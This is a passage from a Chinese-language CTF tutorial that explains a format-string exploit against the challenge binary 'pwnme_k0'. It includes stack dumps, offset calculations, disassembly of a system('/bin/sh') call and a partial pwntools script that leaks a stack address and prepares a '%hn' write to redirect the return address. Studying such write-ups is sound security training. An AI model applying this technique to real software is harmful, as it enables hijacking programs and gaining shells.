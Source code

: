 可以發現我們輸入的用戶名在棧上第三個位置，那麼除去本身格式化字符串的位置，其偏移爲爲 5 + 3 = 8。

#### 修改地址

我們再仔細觀察下斷點處棧的信息

```text
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到棧上第二個位置存儲的就是該函數的返回地址(其實也就是調用 show account 函數時執行 push rip 所存儲的值)，在格式化字符串中的偏移爲 7。

與此同時棧上，第一個元素存儲的也就是上一個函數的 rbp。所以我們可以得到偏移 0x00007fffffffdb80 - 0x00007fffffffdb48 = 0x38。繼而如果我們知道了 rbp 的數值，就知道了函數返回地址的地址。

0x0000000000400d74 與 0x00000000004008A6 只有低 2 字節不同，所以我們可以只修改 0x00007fffffffdb48 開始的 2 個字節。

這裏需要說明的是在某些較新的系統(如 ubuntu 18.04)上, 直接修改返回地址爲 0x00000000004008A6 時可能會發生程序 crash, 這時可以考慮修改返回地址爲 0x00000000004008AA,  即直接調用 system("/bin/sh") 處

```assembly
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```

#### 利用程序
```python
from pwn import *
context.log_level="debug"
context.arch="amd64"

sh=process("./pwnme_k0")
binary=ELF("pwnme_k0")
#gdb.attach(sh)

sh.recv()
sh.writeline("1"*8)
sh.recv()
sh.writeline("%6$p")
sh.recv()
sh.writeline("1")
sh.recvuntil("0x")
ret_addr = int(sh.recvline().strip(),16) - 0x38
success("ret_addr:"+hex(ret_addr))


sh.recv()
sh.writeline("2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
#sh.writeline("%2214d%8$hn")
```